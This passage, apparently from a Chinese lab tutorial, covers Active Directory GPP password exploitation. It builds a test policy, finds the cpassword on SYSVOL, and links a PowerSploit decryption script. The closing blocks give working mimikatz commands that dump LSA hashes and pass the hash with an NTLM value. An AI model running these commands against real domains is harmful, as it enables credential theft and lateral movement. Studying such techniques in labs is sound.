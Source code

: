 **2.1 创建组策略**

①创建组织单位，将需要下发策略的用户移动到此单位。此时对 xyz 组进行组策略下发，该组里的用户都会被执行策略

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmiaVkgJq3afJDnBKEf73oFgBpn3icE6ZhHyxqrTOp0rHEWYrqhKblW6Vw/640?wx_fmt=png)  

②在该组织单位下新建组策略对象

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmBvOh3VNDFOeKdibiaVw6rs6BB2vyMkwlEibett1H2tpo4s3iaeGib9deiabw/640?wx_fmt=png)

③编辑组策略，更新本地用户。

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvm33Xs6KpGYhmdBhlI2T5Zz0swglbJMpickHicicnEP5iaYUF0ItbKlCmXbQ/640?wx_fmt=png)  

至此成功在域控下发了一个组策略，策略内容：创建 xyz-test 用户，密码为 123.com。接下来进行 GPP 漏洞利用以获取敏感信息。  

**2.2 漏洞利用  
**

①在获取权限的域内主机更新策略，使下发的策略生效

```
gpupdate /force
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmLC7WMzT5K90WibwnyBVE4eM2ZKSB0UaZ7RdziasLiafnrU3BDW0rMwXibA/640?wx_fmt=png)  

②查看该策略对应的 id 号  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmk9nJraf6t1VCq7mRszdQJQ9n1icF5bVH8ShuNQK9BeiaeHMYNEUpVM0Q/640?wx_fmt=png)  

③寻找组策略对应的本地文件  
在域中，存在一个默认的共享路径：\*\*\\\\SYSVOL<DOMAIN>\\\*\*。所有域内主机都能访问，里面保存组策略相关数据，包含登录脚本配置文件等  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmzIyNnoVicvBlzb0n2s8zbPoAwPuCicA2SAN9GO3th6phhibRuHZd1wHdg/640?wx_fmt=png)  

④查看策略内容，文件内容里面 cpassword 项保存的是加密后的内容，加密方式为 AES 256

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbepibvTibwpMDxrqyN4qwhvmZpGz92C91sS2dicIo0hkL1CIJ1mlWEpZSgEibTtl43wAUUHGyK9xHZCg/640?wx_fmt=png)

还原 hash 的方式可采用开源的 powershell 脚本，项目地址如下：

```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1
```

```
mimikatz.exe              //运行
privilege::debug          //提权
lsadump::lsa /patch      //得到hash密文
# 或者一步到位并将查询结果保存造本地txt文件：
mimikatz.exe "privilege::debug" "lsadump::lsa /patch" exit >>log2.txt
```

```
imikatz.exe "privilege::debug" "sekurlsa::pth /domain:safe-duck /user:administrator /ntlm:f5082729365bda3f34f598f99b33b242" exit
```
